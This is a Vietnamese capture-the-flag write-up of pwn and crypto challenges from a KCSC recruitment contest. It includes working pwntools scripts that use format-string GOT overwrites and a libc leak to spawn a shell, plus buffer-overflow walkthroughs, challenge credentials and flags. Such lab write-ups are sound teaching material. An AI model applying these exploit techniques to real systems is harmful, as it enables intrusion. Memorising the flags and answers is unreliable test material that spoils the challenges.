 ## TUYỂN THÀNH VIÊN KMA 16/01/2022
## I.PWN

<details>
<summary>1. Cat </summary>
**Tóm tắt đề :**
Một địa chỉ để kết nối bằng netcat : `nc 146.190.115.228 9994`
Một file *cat* để chạy trên linux

**Ý tưởng :**
- Đầu tiên mình sử dụng terminal kết nối với địa chỉ trên, nhận thấy yêu cầu nhập username và password
![](https://i.imgur.com/dG0sl79.png)
- Để hiểu rõ hơn về cách server check 2 yếu tố trên nên mình sài ghidra để decompile file cat

![](https://i.imgur.com/3Zf5DJr.png)

- Sau đó mình vào main để đọc code và nhận thấy chương trình hoạt động như sau:
	1.  Mở file flag từ server -> nhập username, pasword -> so sánh username với "KCSC_4dm1n1str4t0r" , password với "wh3r3_1s_th3_fl4g"
	Chỗ password của thằng ghidra nó không ghi thẳng ra cho mình mà mình phải tự dịch đoạn hex này ra :

	 [![https://i.imgur.com/MGd2eIH.png](https://i.imgur.com/MGd2eIH.png "https://i.imgur.com/MGd2eIH.png")](https://i.imgur.com/MGd2eIH.png "https://i.imgur.com/MGd2eIH.png")

	2. Sau khi check xong sẽ yêu cầu nhập xâu secret với độ dài 512 ký tự rồi xuất ra. Nhận thấy có mùi buffer overflow đâu đây vì nếu nhập xâu lớn hơn độ dài trên thì khi xuất ra sẽ có nguy cơ tràn qua biến chứa flag -> bắt đầu khai thác
- Mình làm theo ý tưởng trên và thu được flag `KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`

![](https://i.imgur.com/1BL4A1H.png)

</details>

<details>
<summary>2. Treasure</summary>
**Tóm tắt đề :**
Đề cho một file *treasure* để chạy trên linux

**Ý tưởng :**
- Mình tải về sau đó chạy thử thì ra part 1 :
![](https://i.imgur.com/KcmheSj.png)

- Mình thử đưa vào IDA và thu được part 2

![](https://i.imgur.com/F34bUVe.png)

- Part 3 thì mình sài strings trong terminal của linux thử coi có flag không (ai ngờ có thiệt)

![](https://i.imgur.com/ZstQv88.png)

- Ghép lại ta được flag là `KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`

</details>

<details>
<summary>3. overthewrite</summary>

**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
1 file overthewrite để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida decompile để có pseudocode

![](https://i.imgur.com/zEC752E.png)

- Nhìn qua ta thấy được control flow như sau : Nhập key -> check lần lượt các biến v9,v8,v7,s1 -> nếu khác trong quá trình check sẽ thoát ra -> nếu đúng hết sẽ có được shell.
- Do đó để có được shell ta cần cho các biến v9,v8,v7,s1 lần lượt bằng `0x13371337`,` 0xDEADBEEFCAFEBABE`,`0x215241104735F10F`,`Welcome to KCSC`
- Dựa vào source ta thấy biến buf chỉ có 32 byte mà nhập tới 80 byte -> buffer overflow
- Dựa vào ida ta có thứ tự các biến trong stack như sau: 

![](https://i.imgur.com/w0L7xHw.png)

- Do đó ta sẽ viết script để khai thác

![](https://i.imgur.com/j69oMBZ.png)

- Chạy thử script trên ta bị lỗi. Để hiểu rõ hơn ta sẽ debug

![](https://i.imgur.com/KdK5cQK.png)

- Nhìn hình trên ta thấy tại `0x007fff0563c490` tức `rsp + 20h` hay biến s1 ta có đc hex `0x20656d6f636c6557` decode qua sẽ thu được string `  emocleW` (đảo ngược do little endian)
- Tiếp theo tại `0x007fff0563c498` tức `rsp + 28h` hay biến v6 ta có được hex `414353434b206f74 ` tức là string `ACSCK ot`. Ủa tại sao sai? Hàm strcmp hoạt động như thế nào?. Ta sẽ phân tích hàm strcmp.
- Hàm strcmp sẽ so sánh từng ký tự trong string này với từng ký tự trong string kia đến khi nào gặp ký tự thông báo hết string hoặc string này dài hơn string kia sẽ dừng. Ký tự báo hết string đó chính là` \0`. Do ta đã overflow qua biến v6 nên hàm nó cứ tiếp tục so sánh mà không có ký tự dừng nên dẫn đến sai. Do đó ta sẽ dành 1 byte để encode ` \0`
- Sửa lại script ta đã có được shell

![](https://i.imgur.com/x1IXSgb.png)

</details>

<details>
<summary>4. TheLastOne</summary>
**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
- Một file thelastone để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida để decompile file ra

![](https://i.imgur.com/8t9GrbK.png)

- Nhận thấy control flow của chương trình như sau: Nhận input từ người dùng, tuỳ vào input(1->6) rồi xử lý tương ứng
- Sau đó mình vào từng case để xem:
+ Case 1: gọi hàm` set_name` và set input bằng hàm read_str. Mình đã xem code mẫu của hàm read_str nhưng khá khó hiểu nên tạm thời bỏ qua case này.
+ Case 2: gọi hàm `get_name` và in ra tên. Tạm thời chưa có gì đặt biệt
+ Case 3: gọi hàm `find_food`. Hàm này để vào làm rối thôi chứ không làm gì đặc biệt.
+ Case 4: gọi hàm  `kill_zombie`. Hàm này mỗi lần kêu thì sẽ trừ biến đếm. Có nguy cơ tràn biến nhưng chưa thấy gì đặc biệt
+ Case 5: gọi hàm ` find_survivor`. Hàm này bị overflow vì tạo v1 76 byte nhưng khi nhập tới 88 byte (maybe ???)

![](https://i.imgur.com/MoJHe1G.png)

-> Kết luận: sẽ đi khai thác hàm `find_survivor` vì hàm này đang tình nghi số 1, sẽ thử các case khác khi bí.
- Quan sát thấy có 1 hàm không được gọi ở đâu hết là `unknown`. Hàm này sẽ lấy shell. Vậy ta sẽ lợi dụng buffer overflow để chuyến hướng hoạt động của chương trình vào hàm này
- Cùng sài gdb để debug. Ta sẽ đặt breakpoint ở `nop` của hàm `find_survivor`.  Sau đó ta `run`, chọn 5 rồi tạo input 88 chữ A coi thử tràn tới đâu.

![](https://i.imgur.com/L1NrtOU.png)

- Sau đó ta `ni` đến chỗ `ret` rồi dừng ở đây, ta xem thử stack. Nhận thấy vẫn 	chưa tràn qua tới địa chỉ mà `rip` đang trỏ tới

![](https://i.imgur.com/wuGcWH5.png)

- Debug lại chương trình và lần này input 92 byte (4 byte để ghi địa chỉ, 88 byte padding). Nhận thấy chương trình trả lại 3 ký tự tức là input là 89 byte. Vậy ta chỉ có thể lợi dụng byte cuối để ghi đè thành địa chỉ của hàm `unknown`

![](https://i.imgur.com/2pQUXqB.png)

- Tới đây ta lấy địa chỉ của hàm `unknown` và địa chỉ ret trong ô nhớ kia so sánh. Vì cần phải khác 1 byte cuối mới gọi được hàm `unknown`

![](https://i.imgur.com/urwhI2I.png)

- Đúng là chỉ khác 1 byte cuối, vậy thì tiếp theo ta `disass unknown` để xem nên đưa vào đâu tránh lỗi `xmm0`. Ở đây mình chọn `6f` là byte cuối.

![](https://i.imgur.com/g8U9C4o.png)

- Đến đây ý tưởng đã hoàn thành và ta viết script để khai thác.

![](https://i.imgur.com/ExAGOip.png)

- Chạy và ta có được shell.

![](https://i.imgur.com/54cXeGL.png)

</details>

<details>
<summary>5. ShortJumps</summary>

**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
- 1 file shortjumps để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida để decompile file 32 bit nhưng không được vì sài bản lậu =)), nên mình đã sài ghidra nhưng nó đưa code tạp nham quá do đó mình sài binary ninja để coi thêm.

![](https://i.imgur.com/dNyoxvc.png)

- Nhận thấy control flow của chương trình như sau: nhập tên -> nhập Y/n -> nhập dream. Đơn giản chỉ vậy
- Tiếp theo mình coi từng biến thì nhận thấy biến `local_80` này bị buffer overflow do khai báo có 80 byte mà sài tới 140 bytes

![](https://i.imgur.com/A9CISV7.png)

- Bên cạnh đó còn có 2 hàm khai báo nhưng không được gọi trong chương trình là` jmp1` và` jmp2` . Check thử từng hàm thì thấy biến `jmp` sẽ tăng lên 1 nếu đầu vào là `0xdeadbeef`, hàm `jmp2` đòi `jmp` phải là 1 mới cho shell. do đó ý tưởng hiện tại sẽ là overwrite ret address trên stack bằng biến ` local_80`. Thứ tự nhảy sẽ là jmp1 - > jmp2. Ta sẽ triển khai ý tưởng trên
- Đầu tiên ta debug bằng gdb để lấy offset. Ta sẽ input full 140 byte. Khi chạy tới ret ta xem `esp` trên stack trên địa chỉ đang trỏ về string `gaabhaabiaabjaab` ta sẽ tìm ra offset là 124. Vậy ta cần fill 124 byte trước khi gửi địa chỉ để ret vào.

![](https://i.imgur.com/B1N1xCr.png)

- Sau đó ta đi tìm địa chỉ của `jmp1`, sẵn tìm `jmp2` luôn. Ta được địa chỉ của jmp1 và jmp2 lần lượt là `0x80492b4` và `0x80492e0`

![](https://i.imgur.com/ZpvhBqJ.png)

- Tiếp theo ta viết script để khai thác rồi debug tiếp.  Nhận thấy hàm đã ret thành công sang `jmp1`

![](https://i.imgur.com/itbP1z6.png)
![](https://i.imgur.com/WEmTHGF.png)

- Nhận thấy ta cần fill thêm 4 bytes nữa để so sánh với `0xdeadbeef`, ta sẽ sửa lại code.

![](https://i.imgur.com/DRikHKu.png)
![](https://i.imgur.com/td2k679.png)

- Lại đi debug tiếp, lần này ta thấy đã thành công so sánh nhưng lại cần phải sài thêm 4 byte để ghi ret chuyển tiếp qua `jmp2`

![](https://i.imgur.com/zEyqYyC.png)

- Ta lại thấy `esp` lúc này lại chính là 4 chữ A mới fill trong script. Tới đây biến payload đã là 140 byte không thể overflow gì thêm, do đó khi gọi hàm `jmp2` sẽ không thể làm gì được. Ta cần chính lại ý tưởng là `jmp1 -> main -> jmp2`

![](https://i.imgur.com/zEyqYyC.png)

- Đổi script 4 chữ A lại thành địa chỉ `main`, cùng với lặp lại quá trình tương tự để nhảy qua `jmp2`. Tới đây việc tìm offset tương tự `jmp1`, riêng việc tính toán để có bài toán như sau:

![](https://i.imgur.com/868FouH.png)

- Ta sài microsoft calculator để tính bằng hex =)). Sau đó encode lại và gửi bằng script.

![](https://i.imgur.com/AKv6XJr.png)
![](https://i.imgur.com/VIfe9AM.png)

- Chạy và ta có được shell 

![](https://i.imgur.com/BiAWGrz.png)


</details>

<details>
<summary>6. FMT XMASTER</summary>
**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề :**
- file `chall`
- file ` ld-linux-x86-64.so.2`
- file `libc.so.6`

**Ý tưởng :**
- Đầu tiên ta sài lệnh `pwninit` để tự tạo file mới liên kết với `libc` và `linker` đề cho
- Kế tiếp ta decompile bằng IDA

![](https://i.imgur.com/1DT0YEP.png)

- Chương trình chạy như sau: random 2 số `v6` và `buf`, yêu cầu nhập `v7`, nếu `v6 + buf = v7` thì có shell. Bên cạnh đó bài cũng có lỗi format string chỗ kêu nhập tên.
- Tiếp theo ta checksec. Nhận thấy có Partial RELRO, no PIE và đây là file 64 bit nên ta có thể overwrite GOT bằng format string. 

![](https://i.imgur.com/Vj5tGXQ.png)

- Ý tưởng hiện tại như sau: chuyển exit(0) thành main thực thi hàm main lần 2, lần 2 thì overwrite printf thành system, lần 3 thì nhập /bin/sh để lấy shell. 
- Việc có no PIE sẽ giúp ta làm GOT đơn giản nhiều do khi lấy địa chỉ mà plt reference qua luôn tĩnh => Lấy luôn cái tĩnh đó sài khỏi leak libc (bài này mình gdb thấy offset của got không đổi đối với vài hàm) hay leak exe.

![](https://i.imgur.com/zBISpBM.png)

- Hay nói cách khác ở địa chỉ `0x404030` luôn reference qua `0x401060`. Cái `0x401060` sẽ thay đổi nếu trước đó hàm `printf` đã được gọi (do plt update) nhưng `0x404030` sẽ luôn giữ nguyên khi chạy chương trình bất cứ lúc nào. 
- Ta viết script cho lần chạy đầu như sau :
![](https://i.imgur.com/cfZcNJ7.png)
- Mình` ljust 0x20` vì cop code cũ bê qua lười sửa =)) chứ thật ra padding sao cho địa chỉ cần ghi nằm trọn trong 1 ô nhớ 8 byte là đủ. Mình overwrite địa chỉ `0x404058` tức là `exit`  thành địa chỉ của `main`

![](https://i.imgur.com/v8ih8jV.png)

- Tới vòng lập thứ 2 thì mình chuyển cái địa chỉ `0x404030` của `printf` thành địa chỉ của `system`. Ở đây mình ghi 4 byte cuối của `printf` trước rồi `0x404030 + 4` để ghi 2 byte đầu. Quá trình tìm offset cũng tương tự trên thôi do chép chung 1 code =)).

![](https://i.imgur.com/rlKz9Y1.png)

- Lần thứ 3 thì nhập `/bin/sh` rồi ghi đại cái đoán kia thôi vì trước sau cũng lấy được shell rồi.

![](https://i.imgur.com/OpjZvfT.png)

- Script :
``` python

from pwn import * 
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

printf_add = 0x401060
exit_add = 0x4010b0
system_add = 0x401050
main_add = exe.sym['main']

p = process(exe.path)

payload = f'%{main_add}c%16$n'.encode() 
payload = payload.ljust(0x20,b'A')
payload += p64(0x404058)
p.sendlineafter(b'your name:\n',payload)
p.sendlineafter(b'a gift:\n',b'5')

payload=b'%16$hn'
payload += f'%{system_add}c%17$n'.encode()
payload = payload.ljust(0x20,b'A')
payload += p64(0x404030+4) 
payload += p64(0x404030) 
p.sendlineafter(b'your name:\n',payload)
p.sendlineafter(b'a gift:\n',b'5')

p.interactive()

```
</details>
<details>
<summary>7. XFmasTreeXFmasTree</summary>
**Tóm tắt đề :**

- 1 file `chall`
- 1 file  `ld-linux-x86-64.so.2`
- 1 file `libc.so.6`

**Ý tưởng :**

-  Đầu tiên ta sài lệnh `pwninit` để tự tạo file mới liên kết với `libc` và `linker` đề cho
- Kế tiếp ta decompile bằng IDA

![](https://i.imgur.com/yyuXc8R.png)

- Chương trình hoạt động như sau : chọn option rồi thực hiện. Trong đó ta chỉ quan tâm tới option 1 vì cái thứ 2 bịp =)). Ở đây có lỗi format string trong hàm `payload`

![](https://i.imgur.com/7EYxpHL.png)

- Kế tiếp ta `checksec`. Nhận thấy có Partial RELRO, no PIE và đây là file 64 bit nên ta có thể overwrite GOT bằng format string. 

![](https://i.imgur.com/Ualkoc5.png)

- Riêng bài này thì ta sẽ leak `libc` để tính offset, khỏi leak exe vì exe static do `no PIE`. Vậy ý tưởng sẽ như sau : chạy lần 1 leak `libc` -> chạy lần 2 overwrite `printf` thành `system` và lần 3 lấy shell
- Ta viết script khúc đầu như sau: 

![](https://i.imgur.com/hkBONkW.png)

- Mình leak ở 37$p vì sau 36 địa chỉ kể tử stack, đây là địa chỉ của `__libc_start_call_main`. Mình trừ cho 171408 vì đây là offset của cái địa chỉ mới leak kia tới base

![](https://i.imgur.com/YMHQp4V.png)

- Tiếp theo ta chuyển `printf` thành `system`. Việc tính offset thì sài gdb rồi soi tương tự bài kia thôi.

![](https://i.imgur.com/jsUREJo.png)

- Lần chạy cuối cùng nhập /bin/sh để lấy shell

![](https://i.imgur.com/9pgGhon.png)

- Script :

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")


p = process(exe.path)
p.sendlineafter(b'>> ',b'1') 
p.sendlineafter(b'Enter your payload: ',b'%37$p')
p.recvuntil(b'submitted\n')
libc_leak = int(p.recvline()[:-1],16)
libc.address = libc_leak - 171408 
printf_add = exe.got['printf']
print('libc_leak: ',hex(libc_leak))
print('calculated libc address: ',hex(libc.address))
print('printf got address: ',hex(printf_add))
print('system address : ',hex(libc.sym['system']))

p.sendlineafter(b'>> ',b'1') 
part1 = libc.sym['system'] & 0xff
part2 = libc.sym['system'] >> 8 & 0xffff
payload = f'%{part1}c%10$hhn'.encode()
payload += f'%{part2-part1}c%11$hn'.encode()
payload = payload.ljust(0x20,b'L')
print(payload)
payload += p64(printf_add) + p64(printf_add+1)
p.sendlineafter(b'Enter your payload: ',payload)
p.interactive()

```

</details>



## II.Crypto
<details>
<summary>1.Tet_is_ya_best</summary>
**Tóm tắt đề :**
Đề cho file *output.txt*

**Ý tưởng :** 

- Mình tải file về xem thử, sau đó lên https://www.dcode.fr/cipher-identifier check xem mã hoá gì

![](https://i.imgur.com/SH1795U.png)

- Thử lần lượt từng cái trong phần suggestions, nhận thấy bên Mono-alphabetic Substitution cho ra kết quả đọc được -> có luôn flag là
`KCSC{TET_TET_TET_TET_DEN_ROI__CHUC_CAC_BAN_NAM_MOI_THAT_NHIEU_SUC_KHOE__LUV_FROM_LULUUUUUUUUUUUU}`
Ngặc cái đề thay thế chữ thường mà trang này decode ra in hoa nên mình chuyển lại chữ thường mà giữ nguyên in hoa KCSC khúc đầu
Flag là `KCSC{tet_tet_tet_tet_den_roi__chuc_cac_ban_nam_moi_that_nhieu_suc_khoe__luv_from_luluuuuuuuuuuuu}`

![](https://i.imgur.com/9TvNvRL.png)

</details>
<details>
<summary>2.ezenc</summary>

**Tóm tắt đề :**
Đề cho file *chall.txt*

**Ý tưởng :**
- Bài này thì mình cũng tải file về xem thử nhưng lần này vô thử cyberchef làm cho nhanh
- Mình chọn depth = 10 và known text là KCSC thì ra luôn flag là `KCSC{Encoding_Is_Cool!!!}`


![](https://i.imgur.com/IIn5C3s.png)


</details>
